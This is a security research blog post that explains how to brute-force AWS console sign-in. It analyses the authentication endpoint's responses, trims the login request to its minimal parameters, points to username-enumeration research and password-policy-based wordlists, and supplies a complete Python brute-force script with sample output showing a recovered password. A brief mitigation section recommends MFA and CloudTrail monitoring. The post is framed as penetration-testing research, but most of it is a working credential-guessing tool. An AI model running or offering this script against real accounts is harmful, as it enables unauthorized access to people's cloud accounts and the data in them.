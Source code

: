 ```yaml
---
title: How to brutefore AWS console sign-in
date: 2021-09-15 10:34:00 -0500
tags: [Reseach, AWS]
---
```


## Introduction
I saw some vendors have a detection rule about AWS Console brute force login and I was curious if there any AWS console brute force tool. So I start google but found nothing and I think there should be a way to brute force.


&nbsp;
## How does console sign in work?
When you click "Sign in" the console will send login data to https://signin.aws.amazon.com/authenticate and return a response
 
if the user enable MFA:
```json
{
  "state": "SUCCESS",
  "properties": {
    "result": "MFA",
    "mfaType": "SW",
    "header": "Multi-factor Authentication",
    "cancelLink": "https://console.aws.amazon.com/console/home?fromtb=true&hashArgs=%23&state=hashArgsFromTB_us-east-1_4301e3df13c998fe",
    "text": "Enter an MFA code to complete sign-in."
  }
}
```

Login success:
```json
{
  "state": "SUCCESS",
  "properties": {
    "result": "SUCCESS",
    "redirectUrl": "https://console.aws.amazon.com/console/home"
  }
}
```

Incorrect username/password:
```json
{
  "state": "FAIL",
  "properties": {
    "result": "FAILURE",
    "text": "Your authentication information is incorrect. Please try again."
  }
}
```

Missing some header:
```html
There seems to be a problem with your session. Or you are trying to access an AWS region that is not enabled for your account. <br />
 If the problem persists try clearing your browser cookies or <a href="https://console.aws.amazon.com/iam/home?region=us-east-1" target="_blank">sign in into the US East region</a>.
We apologize for the inconvenience.<br />
```

Missing some POST data :
```json
{
  "state": "FAIL",
  "properties": {
    "Message": "Invalid request",
    "Title": "Bad Request",
    "header": "Bad Request",
    "text": "Invalid request"
  }
}
```

So I remove unnecessary parameters the request will look like this :


```python
import requests

headers = {
    'Referer': 'https://signin.aws.amazon.com/oauth?client_id=arn%3Aaws%3Asignin%3A%3A%3Aconsole%2Fcanvas&code_challenge=HX2l8ZYWg_5-bz_ed-RChnM-GNqJFbWBiDBbtq1-HVQ&code_challenge_method=SHA-256&response_type=code&redirect_uri=https%3A%2F%2Fconsole.aws.amazon.com%2Fconsole%2Fhome%3Ffromtb%3Dtrue%26hashArgs%3D%2523%26isauthcode%3Dtrue%26state%3DhashArgsFromTB_us-east-1_5674597973dd3cd0&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEKv%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FwEaCXVzLWVhc3QtMSJGMEQCIFTWCIdWxMlnFxwHYxlpNxADKYyFjHxvuQqbiITcIZguAiB3o%2FsGsv9UbgQWi8UWH5r%2FgBHNK4%2FIaYM0brhqI%2BcpzyqTAgiD%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F8BEAEaDDM1ODgyMTg4MDU2NSIMAtX%2BUfkVugJIEPKoKucBprpcJ0aOyAwP%2FHCPbyTIR1HkK%2F1XdC2dh2cdoPBpkSu%2FXgSLjtuRat4ZoPpIN9PtFCU8zYVhWhf%2BMRThkEDK1tUx8zwjPoE%2B%2BfwkBhBNXGmeptTDfprZ7LosegbiJe86zT8o3VOv4%2FE0tmJHcnSrsbEhM87AikUQvobKY6Lr4JlqU7MM3uuU6pxf7Vz1sagypCfcj%2FSKPlOqsFzmGyFpd9W4KNN%2BWceq9rGLmvHUbKOnN64I73uxWVH%2Bsj10CKgCfw060zjKHfZj41KcNvAazr7HyjT8Qmj1AjsmVw12hc4kobOh6zF8MM6G6oYGOpABiohVmFhrhpvVbITOoSePH7jdiC4my%2B60vDPkj5Av4Euz2Jdb2svTXMRXH82CQkhBl9EhflGz%2BMEp3n2AeJ4ySIajogQPrN0AqGDTQVxxhjcQ24%2F6ueSUC0MsL9irM2tt2Hm%2BHLsZ9zIFF7wSCWtBVVGJsYbcCL659kAWrWuFhXRiofBN7cRvyUZSqO83J2zA&X-Amz-Date=20210629T022227Z&X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=ASIAVHC3TML2YHA5VWS4%2F20210629%2Fus-east-1%2Fsignin%2Faws4_request&X-Amz-SignedHeaders=host&X-Amz-Signature=11d78bf1043164b982b04e82f0c33a5866bc35cc70e53da3c6d8353ba525719d',
}

data = {
  'action': 'iam-user-authentication',
  'account': '123456789012',
  'username': 'console_user',
  'password': 'password',
  'client_id': 'arn:aws:signin:::console/canvas',
  'redirect_uri': 'https://console.aws.amazon.com/console/home',
}

response = requests.post('https://signin.aws.amazon.com/authenticate', headers=headers, cookies=cookies, data=data)
```
The referer header has an AWS credential that got from the sign-in page but you can just remove GET parameters the request still works. 
so the final playload will look like this:
```python
import requests

headers = {
    'Referer': 'https://signin.aws.amazon.com',
}

data = {
  'action': 'iam-user-authentication',
  'account': '123456789012',
  'username': 'console_user',
  'password': 'password',
  'client_id': 'arn:aws:signin:::console/canvas',
  'redirect_uri': 'https://console.aws.amazon.com/console/home',
}

response = requests.post('https://signin.aws.amazon.com/authenticate', headers=headers, data=data)
print(response.text)


&nbsp;
```
##  Where to find usernames?
You can use a Rhino Security Labs' research [Using AWS Account ID’s for IAM User](https://rhinosecuritylabs.com/aws/aws-iam-user-enumeration/) or Pacu module `iam__enum_users` to enumerate usernames.

&nbsp;
## Brute force password

### Requirements
- AWS account id
- Console username
- Password wordlist

### Prepare a wordlist
if you have a permission `iam:GetAccountPasswordPolicy` or you already know the target account's password policy you should follow that policy
but if you don't I recommend using the default policy as a guideline.

The default user password policy:
-   Minimum password length is 8 characters
-   Include a minimum of three of the following mix of character types: uppercase, lowercase, numbers, and ! @ # $ % ^ & * ( ) _ + - = \[ \] { } | '
-   Must not be identical to your AWS account name or email address

If you want to make sure the wordlist cover all password as possible you can use this

The weakest possible password policy:
-   Minimum password length is 6 characters

### Brute force script

```python
#!/usr/bin/python3
import argparse
import requests

headers = {
    'user-agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36',
    'referer': 'https://signin.aws.amazon.com',
}

data = {
  'action': 'iam-user-authentication',
  'account': '123456789012',
  'username': 'console_user',
  'password': 'password',
  'client_id': 'arn:aws:signin:::console/canvas',
  'redirect_uri': 'https://console.aws.amazon.com/console/home',
}


requests.urllib3.disable_warnings()

parser = argparse.ArgumentParser()
parser.add_argument('--account-id','-id', required=True, default=False, metavar='account_id', type=str)
parser.add_argument('--username','-u', required=True, default=False, metavar='username', type=str)
parser.add_argument('--wordlist','-w', required=True, default=False, metavar='file_path', type=str)
args = parser.parse_args()

if __name__ == '__main__':
    data['account'] = args.account_id
    data['username'] = args.username
    passwords = open(args.wordlist).read().splitlines()
    for password in passwords:
        data['password'] = password
        response = requests.post(
                'https://signin.aws.amazon.com/authenticate',
                headers=headers,
                data=data,
                verify=False
                )
        if '"result":"SUCCESS"' in response.text:
            print(response.text)
            print("="*20)
            print("Passwrod: ", password)
            break
```
Usage:
```console
./poc.py -id 0123456789012 -u console_user -w passwords.txt
{"state":"SUCCESS","properties":{"result":"SUCCESS","redirectUrl":"https://console.aws.amazon.com/console/home?code\ueyJ6a........................0EqLmrg"}}
====================
Passwrod:  Brut3f0r3_P@ssw0rd
```

&nbsp;
## Mitigation
I recommend enabling MFA for all console users. You can also monitor Cloudtrail log eventName: `ConsoleLogin` if you see a lot fail login attempts in a short period and see login success from the same IP maybe someone got into your account.



&nbsp;
## Conclusion
This technique combined with a Rhino Security Labs' research[1] could be useful when you perform penetration testing AWS accounts and demonstrate how important MFA and strong password policy are necessary to make your AWS account secure.


[1]: https://rhinosecuritylabs.com/aws/aws-iam-user-enumeration/